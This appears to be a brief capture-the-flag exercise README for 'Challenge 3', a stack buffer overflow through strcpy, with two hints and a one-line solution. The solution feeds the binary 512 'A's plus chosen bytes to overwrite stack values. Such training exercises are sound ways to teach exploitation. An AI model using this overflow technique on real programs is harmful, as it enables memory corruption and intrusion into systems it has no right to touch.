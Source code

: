 Challenge 3
===========
Simple buffer overflow to overwite values on the stack.

Hints
-----
1. Strcpy is involved. It's awful.

2. You're gonna need a bigger string.

Solution
--------
./chal3 $(python -c 'print "A"*512 + "\xad\xda\xad\xda\xdd\xee\xee\xdd"')
